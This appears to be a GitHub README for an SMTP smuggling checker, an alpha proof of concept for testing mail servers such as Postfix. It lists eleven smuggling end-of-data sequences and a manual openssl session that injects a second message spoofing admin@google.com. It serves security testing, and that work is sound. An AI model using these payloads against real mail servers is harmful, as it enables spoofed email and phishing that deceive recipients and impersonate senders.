 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
https://www.postfix.org/smtp-smuggling.html

and here:

https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

### Beware this is alpha POC !! tested with postfix and python3

#### Testing of postfix mailserver for example (localhost port 25 auth plain login(optinal)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)


#### Testing these 11 payload strings:
```bash
#Smgggling Strings (0-10):
#smtp_smuggle_escape = '\r\n.\r'
#smtp_smuggle_escape = '\r\n\x00.\r'
#smtp_smuggle_escape = '\r\n\x00.\n'
#smtp_smuggle_escape = \r\n\x00.\r\n
#smtp_smuggle_escape = \r\n.\x00\r\n
#smtp_smuggle_escape = '\r\n.'
#smtp_smuggle_escape = \n.\r\n
#smtp_smuggle_escape = \r.\r\n
#smtp_smuggle_escape = \n\n.\r\n
#smtp_smuggle_escape = \r\n.\r
#smtp_smuggle_escape = \n.\n
```

### How to use:

```python
usage: smtp_smuggle.py [-h] [--server SERVER] [--port PORT] [--user USER]
                       [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

optional arguments:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername
  --port PORT      SMTP-Serverport
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def?
```

### Run like this:

```python
.\smtp_smuggling_checker.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

